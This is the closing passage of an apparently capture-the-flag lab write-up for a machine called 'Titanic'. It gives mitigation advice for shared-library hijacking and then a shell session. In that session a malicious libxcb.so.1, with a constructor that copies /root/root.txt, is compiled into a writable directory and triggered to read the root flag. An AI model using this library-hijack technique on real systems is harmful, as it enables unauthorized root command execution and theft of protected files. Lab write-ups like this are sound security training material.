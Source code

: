 
#### How to Mitigate This Vulnerability

Disable constructor functions: Ensure that constructor functions in libraries cannot execute arbitrary code. Some systems or application configurations may allow the disabling of such functions.
Restrict directory write access: Ensure that only trusted users have write access to directories from which libraries can be loaded.
Use secure library paths: Ensure the system doesn't load libraries from untrusted or user-writable directories. You can set LD_LIBRARY_PATH to only include trusted paths.
Regular audits: Regularly audit directories where libraries are loaded from, as well as the permissions of those directories, to prevent malicious libraries from being placed there.

~~~ shell
developer@titanic:~$ cd /opt/app/static/assets/images/
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home2.jpg  home.jpg  luxury-cabins.jpg  metadata.log  root.jpg
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home2.jpg  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log  root.jpg
developer@titanic:/opt/app/static/assets/images$ cp entertainment.jpg root.jpg
developer@titanic:/opt/app/static/assets/images$ cat /tmp/root.txt
c8f13771f853b07314794feaa02*****
~~~

***Thanks for reading the article.***